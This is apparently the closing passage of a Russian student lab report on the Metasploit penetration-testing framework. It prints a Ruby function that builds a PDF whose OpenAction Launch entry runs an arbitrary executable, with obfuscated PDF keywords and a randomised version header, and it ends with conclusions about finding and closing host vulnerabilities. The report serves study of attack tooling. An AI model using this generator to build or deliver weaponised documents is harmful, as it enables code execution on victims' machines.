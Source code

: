 \documentclass[10pt,a4paper]{article}
\begin{document}
\begin{verbatim}
  def io_def(id)
    "%d 0 obj" % id
  end

  def io_ref(id)
    "%d 0 R" % id
  end

  def make_pdf(exec)

    xref = []
    eol = "\x0d\x0a"
    endobj = "endobj" << eol

    # Randomize PDF version?
    pdf = "%%PDF-%d.%d" % [1 + rand(2), 1 + rand(5)] << eol
    pdf << "%" << random_non_ascii_string(4) << eol
    xref << pdf.length
    pdf << io_def(1) << n_obfu("<</Type/Catalog/Outlines ") << io_ref(2) << n_obfu("/Pages ") << io_ref(3) << n_obfu("/OpenAction ") << io_ref(5) << ">>" << endobj
    xref << pdf.length
    pdf << io_def(2) << n_obfu("<</Type/Outlines/Count 0>>") << endobj
    xref << pdf.length
    pdf << io_def(3) << n_obfu("<</Type/Pages/Kids[") << io_ref(4) << n_obfu("]/Count 1>>") << endobj
    xref << pdf.length
    pdf << io_def(4) << n_obfu("<</Type/Page/Parent ") << io_ref(3) << n_obfu("/MediaBox[0 0 612 792]>>") << endobj
    xref << pdf.length
    pdf << io_def(5) << "<</Type/Action/S/Launch/F << /F(#{exec})>>/NewWindow true\n" + io_ref(6) + ">>" << endobj
    xref << pdf.length
    pdf << endobj
    xrefPosition = pdf.length
    pdf << "xref" << eol
    pdf << "0 %d" % (xref.length + 1) << eol
    pdf << "0000000000 65535 f" << eol
    xref.each do |index|
      pdf << "%010d 00000 n" % index << eol
    end
    pdf << "trailer" << n_obfu("<</Size %d/Root " % (xref.length + 1)) << io_ref(1) << ">>" << eol
    pdf << "startxref" << eol
    pdf << xrefPosition.to_s() << eol
    pdf << "%%EOF" << eol

  end

end
\end{verbatim}

Создает pdf файл с необходимым для запуска содержанием.

\section{Выводы}
В ходе выполнения работы был изучен инструмент тестов на проникновение Metasploit, с его помощью были изучены способы поиска уязвимостей хостов, осуществления атак с использованием найденных уязвимостей. Данный инструмент полезен для получения общей картины уязвимости собственных хостов, что позволит закрыть "дыры" в безопасности.


\end{document}
